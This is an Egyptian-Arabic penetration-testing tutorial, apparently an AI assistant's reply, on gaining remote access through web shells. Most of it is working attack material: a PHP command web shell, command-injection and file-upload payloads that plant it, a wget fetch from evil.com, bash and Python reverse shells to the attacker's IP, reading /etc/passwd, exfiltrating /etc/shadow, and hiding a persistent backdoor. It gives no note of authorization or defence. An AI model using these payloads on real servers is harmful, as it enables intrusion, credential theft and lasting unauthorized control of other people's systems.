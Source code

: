 تمام، هشرحلك القسم ده عن "الوصول عن بُعد عن طريق الـ Web Shells" (Gaining Remote Access via Web Shells) بعمق وعملي مع أكواد وأوامر، وبعد كل جزء هاديك خلاصة Pentest بالعامية المصرية، وفي الآخر هاديك سيناريوهات الاستغلال الممكنة.

---

### **1. فهم الـ Web Shells**
#### **شرح عملي:**
الـ Web Shell هي سكربت (غالبًا PHP، ASP، أو Python) بترفعه على السيرفر عشان تتحكم فيه عن بُعد. بتكون زي واجهة بسيطة بتكتب فيها أوامر نظام (زي `whoami` أو `ls`) أو تنفذ كود، وبتشتغل من خلال المتصفح أو طلبات HTTP.

- **الغرض:** بدل ما تعتمد على ثغرة مؤقتة، الـ Web Shell بتديك وصول دائم طالما موجودة على السيرفر.
- **كيف بترفعها؟** بتستغل ثغرات زي Command Injection، File Upload، أو RCE.

#### **كود عملي (Web Shell بسيطة بـ PHP):**
- سكربت PHP:
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
- احفظها باسم `shell.php`، لو قدرت ترفعها على السيرفر (مثلاً في `/var/www/html`)، افتح:
```
http://<IP>/shell.php?cmd=id
```
- لو رجعلك `uid=33(www-data)`، يبقى الـ Web Shell شغالة!

#### **أمر عملي (تجربة يدوية):**
- لو رفعتها، جرب أوامر زي:
```bash
curl "http://<IP>/shell.php?cmd=whoami"
```
- لو رجعلك اسم المستخدم، يبقى تقدر تتحكم في السيرفر.

#### **خلاصة Pentest بالعامية:**
"لو لقيت ثغرة ترفع بيها ملف، ارفع سكربت زي `shell.php` وابدأ نفذ أوامر من المتصفح. لو شغال، يبقى السيرفر بقى بتاعك!"

---

### **2. رفع الـ Web Shell على السيرفر**
#### **شرح عملي:**
عشان تكسب وصول عن بُعد، لازم ترفع الـ Web Shell. ده بيحصل عن طريق استغلال ثغرات زي:
- **File Upload:** لو الموقع بيسمح برفع ملفات بدون فحص الامتداد.
- **Command Injection:** تكتب ملف الـ Shell على السيرفر.
- **RCE:** تنفذ أمر يحمل الـ Shell من موقعك.

#### **كود عملي (رفع عبر Command Injection):**
- لو فيه صفحة زي `ping.php` من المثال السابق:
```php
<?php
$output = shell_exec("ping -c 4 " . $_GET['ip']);
echo "<pre>$output</pre>";
?>
```
- ابعت طلب:
```bash
curl "http://<IP>/ping.php?ip=127.0.0.1; echo '<?php system(\$_GET[cmd]); ?>' > shell.php"
```
- افتح `http://<IP>/shell.php?cmd=id` وشوف النتيجة.

#### **كود عملي (رفع عبر File Upload):**
- لو فيه نموذج رفع ملفات:
```html
<form action="upload.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="file">
    <input type="submit">
</form>
```
- وكود PHP ضعيف:
```php
<?php
move_uploaded_file($_FILES['file']['tmp_name'], "uploads/" . $_FILES['file']['name']);
?>
```
- ارفع `shell.php` بـ Burp Suite أو يدوي، وافتحه في `http://<IP>/uploads/shell.php?cmd=whoami`.

#### **خلاصة Pentest بالعامية:**
"جرب ترمي الـ Shell بأي طريقة، زي حقن أمر بـ `echo` أو رفع ملف لو الموقع بيسمح. لو نجحت، يبقى عندك باب خلفي للسيرفر!"

---

### **3. استخدام الـ Web Shell للوصول عن بُعد**
#### **شرح عملي:**
بعد ما ترفع الـ Shell، بتقدر تنفذ أوامر، تسحب ملفات، أو تفتح Reverse Shell عشان تتحكم بشكل كامل. الهدف إنك تبقى زي الـ Admin من المتصفح.

#### **كود عملي (Reverse Shell عبر Web Shell):**
- استخدم الـ Shell تنفذ Reverse Shell:
```
http://<IP>/shell.php?cmd=bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1
```
- شغل Netcat على جهازك:
```bash
nc -lvnp 4444
```
- لو اتفتحت الشاشة، يبقى خدت السيرفر كامل!

#### **أمر عملي (سحب ملفات):**
- جرب تسحب ملف حساس:
```bash
curl "http://<IP>/shell.php?cmd=cat /etc/passwd"
```
- لو رجعلك الملف، يبقى تقدر تسحب أي حاجة.

#### **خلاصة Pentest بالعامية:**
"لو الـ Shell شغالة، نفذ أوامر زي `cat` تشوف الملفات أو افتح Reverse Shell بـ Netcat تتحكم كأنك قاعد قدام السيرفر. الدنيا بقت في ايدك!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Via Command Injection:**
   - اكتب الـ Shell:
     ```bash
     curl "http://<IP>/ping.php?ip=127.0.0.1; echo '<?php system(\$_GET[cmd]); ?>' > /var/www/html/shell.php"
     ```
     استخدمها: `http://<IP>/shell.php?cmd=id`.

2. **Via File Upload:**
   - لو فيه Upload، غير امتداد الملف بـ Burp (مثلاً `shell.php.jpg` لـ `shell.php`)، ارفعه وافتحه:
     ```bash
     curl "http://<IP>/uploads/shell.php?cmd=whoami"
     ```

3. **Via RCE:**
   - لو فيه RCE، نفذ أمر يحمل الـ Shell:
     ```bash
     curl "http://<IP>/calc.php?calc=1; system('wget http://evil.com/shell.php -O /var/www/html/shell.php');"
     ```
     افتح: `http://<IP>/shell.php?cmd=ls`.

4. **مشترك:**
   - **Reverse Shell:** افتح Shell كامل:
     ```bash
     curl "http://<IP>/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<YOUR_IP>\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
     ```
     استمع بـ `nc -lvnp 4444`.
   - **File Exfiltration:** اسحب ملفات:
     ```bash
     curl "http://<IP>/shell.php?cmd=base64 /etc/shadow" | base64 -d
     ```
   - **Persistence:** ضيف الـ Shell لمكان دائم:
     ```bash
     curl "http://<IP>/shell.php?cmd=cp shell.php /var/www/html/.hidden.php"
     ```

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، قوللي وأنا أفصلك!